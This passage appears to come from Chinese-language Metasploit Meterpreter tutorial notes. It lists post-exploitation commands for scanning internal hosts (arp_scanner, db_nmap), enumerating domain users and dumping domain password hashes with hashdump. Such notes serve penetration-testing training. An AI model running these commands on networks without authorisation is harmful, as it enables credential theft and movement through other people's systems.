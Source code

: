 >

#### 2.1.2 内网主机发现

扫描内网存活主机

```shell

run arp_scanner -r x.x.x.x/24
```

#### 2.1.3 内网主机端口扫描

使用db_nmap



### 2.2 后渗透攻击技巧

#### 2.2.3 查询域用户

```shell
run domain_list_gen
```

#### 2.2.4 导出全域hash

```shell
hashdump
```



## 3 感谢

[Metasploit 中 Meterpreter 介绍](https://www.fujieace.com/metasploit/meterpreter.html)

[Metasploit入门系列(九)——Meterpreter(二)](https://www.jianshu.com/p/91588e284fe8)

